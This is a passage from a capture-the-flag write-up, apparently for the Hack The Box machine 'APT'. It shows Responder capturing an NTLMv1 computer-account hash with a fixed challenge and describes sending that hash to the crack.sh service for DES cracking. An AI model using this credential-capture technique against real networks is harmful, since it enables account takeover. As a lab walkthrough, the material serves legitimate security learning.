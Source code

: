 ```text
    Responder NIC              [tun0]
    Responder IP               [10.10.14.187]
    Challenge set              [1122334455667788]
    Don't Respond To Names     ['ISATAP']



[+] Listening for events...
[SMB] NTLMv1 Client   : 10.10.10.213
[SMB] NTLMv1 Username : HTB\APT$
[SMB] NTLMv1 Hash     : APT$::HTB:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:1122334455667788                                                          
[*] Skipping previously captured hash for HTB\APT$
[*] Skipping previously captured hash for HTB\APT$
[*] Skipping previously captured hash for HTB\APT$
[*] Skipping previously captured hash for HTB\APT$
[*] Skipping previously captured hash for HTB\APT$
```

However, I got a hit back on my listener! I had the NTLMv1 hash of the user `APT$`.  

### crack.sh

> Remember that the printer will use the computer account during the authentication, and computer accounts use long and random passwords that you probably won't be able to crack using common dictionaries. But the NTLMv1 authentication uses DES \(more info here\), so using some services specially dedicated to cracking DES you will be able to crack it \(you could use [https://crack.sh/](https://crack.sh/) for example\).

The hacktricks blog mentioned that I would get the computer account hash, which seemed to be true.  It also mentioned to use the `crack.sh` service to crack it.  This is a website that offers cracking services using their pre-computed rainbow tables.

* [https://crack.sh/netntlm/](https://crack.sh/netntlm/)

> There’s a number of articles on the LmCompatibilityLevel setting in Windows, but this will only work if a client has this setting at 2 or lower.

This matched what I had found on the machine.  It was looking good so far.

* [https://crack.sh/get-cracking/](https://crack.sh/get-cracking/)
